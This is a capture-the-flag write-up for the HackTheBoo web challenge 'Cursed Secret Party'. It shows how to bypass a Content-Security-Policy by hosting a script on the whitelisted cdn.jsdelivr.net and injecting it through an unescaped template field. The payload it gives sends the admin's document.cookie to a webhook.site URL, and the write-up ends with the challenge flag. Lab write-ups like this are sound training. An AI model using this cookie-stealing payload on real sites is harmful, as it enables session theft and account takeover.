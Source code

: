 # HackTheBoo - Cursed Secret Party

* **Category:** Web
* **Points:** 200

## Challenge

> You've just received an invitation to a party. Authorities have reported that the party is cursed, and the guests are trapped in a never-ending unsolvable murder mystery party. Can you investigate further and try to save everyone?

## Solution

![image](https://user-images.githubusercontent.com/78451563/198380053-3137cbf4-09b1-4b9b-84e4-7d3a6e3e13c2.png)

* This looks like a typical xss challenge where we steal the admin's cookie via xss
* The template tag `{{ request.halloween_name |safe }}` is susceptible to xss as `| safe` filter indicates that the value is known to be safe and therefore does not need to be escaped thus returns unescaped HTML to the client.

```node
// ./challenge/index.js
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        `script-src 'self' https://cdn.jsdelivr.net ;
        style-src 'self' https://fonts.googleapis.com;
        img-src 'self';
        font-src 'self' https://fonts.gstatic.com;
        child-src 'self';
        frame-src 'self';
        worker-src 'self';
        frame-ancestors 'self';
        form-action 'self';
        base-uri 'self';
        manifest-src 'self'`
    );
    next();
});
```

![image](https://user-images.githubusercontent.com/78451563/198380965-2bd68456-89fb-4457-80b3-3e4130d4aea7.png)

*We are hinted that the challenge will involve something todo with CSP from the name (Cursed Secret Party)(CSP)*
* We can do a quick evaluation of how secure the CSP is using:
[CSP Evaulator](https://csp-evaluator.withgoogle.com/)
* The results show that `script-src` is problematic as the host whitelists can frequently be bypassed and `cdn.jsdelivr.net is known to host JSONP endpoints and Angular libraries which allow to bypass this CSP.`

### Bypassing CSP
```js
//Payload
fetch('https://webhook.site/951a8069-3beb-48d5-a21f-99d73d3c95c7', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
```
```
https://github.com/0xEspxrance/CTF-Writeups/blob/main/HackTheBoo/web/xss_poc.js
--> https://www.jsdelivr.com/github -->
https://cdn.jsdelivr.net/gh/0xEspxrance/CTF-Writeups@main/HackTheBoo/web/xss_poc.js
```
![image](https://user-images.githubusercontent.com/78451563/198390669-80770140-5c04-41fa-b236-6df60c761c3a.png)


* We can upload a js file onto our github and convert to a jsdeliver package using [this](https://www.jsdelivr.com/package/npm/csp-bypass) which will bypass CSP as `https://cdn.jsdelivr.net` is whitelisted.
* Then send the payload in the field `halloween_name`

![image](https://user-images.githubusercontent.com/78451563/198391082-7ad9405a-ab45-42a3-88b2-85a7ce0dae10.png)


```
Flag: HTB{cdn_c4n_byp4ss_c5p!!}
```

